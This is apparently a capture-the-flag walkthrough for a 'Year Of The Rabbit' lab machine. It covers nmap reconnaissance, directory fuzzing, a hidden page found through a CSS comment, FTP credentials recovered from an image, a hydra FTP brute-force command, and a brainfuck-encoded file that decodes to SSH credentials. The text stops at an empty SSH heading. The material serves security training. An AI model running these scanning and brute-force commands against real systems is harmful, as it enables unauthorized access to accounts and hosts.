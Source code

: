 # Year Of The Rabbit

## Recon

### Nmap - Ports
``nmap -sS -p- -Pn <IP>``
PORT   STATE SERVICE<br>
21/tcp open  ftp<br>
22/tcp open  ssh<br>
80/tcp open  http<br>

``nmap -Pn -sS -sV -sC -p "21,22,80" -oA .\recon\nmap\ <IP>``
![nmap](./recon/nmap.png)

### Fuzzing
![Fuzzing output](./recon/ffuf.png)

### Acessing http://*IP*/assets/
![Assets](./recon/assets.png)

### CSS:
```CSS
[...]
    font-family: Verdana, sans-serif;
    font-size: 11pt;
    text-align: center;
  }
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
  div.main_page {
    position: relative;
    display: table;
[...]
```

### sup3r_s3cr3t_fl4g.php
![Assets](./recon/turn_off_js.png)

Analyse redirects in network console we view that a hidden directory is called. Let's follow.
![Assets](./recon/redirects.png)


### Follow hidden directory
[image](./recon/hidden_index.png)
```bash
cat ./recon/Hot_Babe.png
```

In end of content file has the user and possibles passwords for FTP.

## Exploit
### Brute Force
```bash
hydra -l ftpuser -P ./exploit/passwords.txt ftp://10.10.101.17:21

[21][ftp]
host: 10.10.143.47
login: ftpuser
password: 5iez1wGXKfPKQ
```
#### FTP

#### Getting File
```brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
[Online Decoder](https://www.dcode.fr/brainfuck-language)
#### Output
```
User: eli
Password: DSpDiM1wAEwid
Memory:
[1] = d (100)
```

### Connect in SSH
